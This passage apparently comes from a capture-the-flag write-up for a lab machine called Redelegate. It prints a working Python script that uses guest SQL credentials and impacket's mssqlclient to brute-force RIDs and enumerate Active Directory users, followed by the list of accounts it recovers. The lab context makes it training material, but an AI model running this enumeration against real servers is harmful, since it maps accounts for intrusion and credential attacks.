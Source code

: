 ```python
    """Run a single query to retrieve the username for a given SID."""
    query = f"SELECT SUSER_SNAME(SID_BINARY(N'{sid}'))"
    with open(query_file, "w") as f:
        f.write(query)
    
    command = ["mssqlclient.py", f"{username}:{password}@{server}", "-f", query_file]
    result = subprocess.run(command, capture_output=True, text=True)
    os.remove(query_file)

    lines = result.stdout.strip().splitlines()
    return next((line.strip() for line in lines if "\\" in line and "[*] INFO" not in line), None)

def bruteforce_rid(server, username, password, base_sid):
    """Perform RID brute force to find valid usernames."""
    print("\n[*] Starting RID bruteforce...\n")
    query_file = "query.sql"

    for rid in range(1100, 1201):
        sid = f"{base_sid}-{rid}"
        user = run_query(server, username, password, query_file, sid)
        if user:
            print(f"[+] RID {rid:4}: {user}")

    print("\n[*] Bruteforce completed.\n")

def main():
    """Main function to configure and start the brute force process."""
    username = "sqlguest"
    password = "<redacted>"
    server = "redelegate.vl"
    base_sid = "S-1-5-21-4024337825-2033394866-2055507597"

    bruteforce_rid(server, username, password, base_sid)

if __name__ == "__main__":
    main()
```

When executed, it reveals the following results:

```
python3 bruteforce.py

[*] Starting RID bruteforce ...

[+] RID 1103: REDELEGATE\FS01$
[+] RID 1104: REDELEGATE\Christine.Flanders
[+] RID 1105: REDELEGATE\Marie.Curie
[+] RID 1106: REDELEGATE\Helen.Frost
[+] RID 1107: REDELEGATE\Michael.Pontiac
[+] RID 1108: REDELEGATE\Mallory.Roberts
[+] RID 1109: REDELEGATE\James.Dinkleberg
[+] RID 1112: REDELEGATE\Helpdesk
[+] RID 1113: REDELEGATE\IT
[+] RID 1114: REDELEGATE\Finance
[+] RID 1115: REDELEGATE\DnsAdmins
[+] RID 1116: REDELEGATE\DnsUpdateProxy
[+] RID 1117: REDELEGATE\Ryan.Cooper
[+] RID 1119: REDELEGATE\sql_svc

[*] Bruteforce completed.
```
